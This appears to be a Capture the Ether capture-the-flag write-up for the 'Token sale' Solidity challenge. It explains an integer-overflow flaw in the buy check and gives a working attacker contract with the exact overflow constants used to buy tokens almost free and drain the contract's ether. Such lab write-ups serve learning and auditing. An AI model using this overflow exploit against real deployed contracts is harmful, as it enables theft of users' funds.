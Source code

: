 # Token sale Capture the ether

## Goals

=> The contract starts off with a balance of 1 ether. See if you can take some of that away.

### Hints

- None

### Solution

- So there is a vulnerability in the calculation of the buy require statement, since the `numTokens * PRICE_PER_TOKEN` whereas `PRICE_PER_TOKEN` is 1 ether => 10 \*\* 18 so we can just buy a numTokens that will cause an overflow like `115792089237316195423570985008687907853269984665640564039458` which is basically the max of a uint256 where we cut off the last 18 numbers and increased the last one by 1 so this will result in `115792089237316195423570985008687907853269984665640564039458000000000000000000` which will cause an overflow and the right side of the compare operation now checks if the `msg.value ==  415992086870360064` (just divide our overflow number by max_uint256) now we can just send that amount as msg.value and we will be able to get a lot of tokens very cheap, we can then sell them to drain the contract

### Attacker Contract

```solidity
contract Hack {
    TokenSaleChallenge tokenSale;
    uint256 public constant MAX_UINT_256 =
        115792089237316195423570985008687907853269984665640564039457584007913129639935;
    // so this will cause an overflow in the TokenSale contract since the number below with 18 more zeros is higher than the number above
    uint256 public constant OVERFLOW_AMOUNT =
        115792089237316195423570985008687907853269984665640564039458;
    // the caused overflow allows us to calculate the amount of wei we need to send which is. around 0.41 eth
    uint256 public constant WEI_AMOUNT_AFTER_OVERFLOW = 415992086870360064;

    constructor(address _tokenSale) public {
        tokenSale = TokenSaleChallenge(_tokenSale);
    }

    function attack() external {
        tokenSale.buy{value: WEI_AMOUNT_AFTER_OVERFLOW}(OVERFLOW_AMOUNT);
    }
}
```
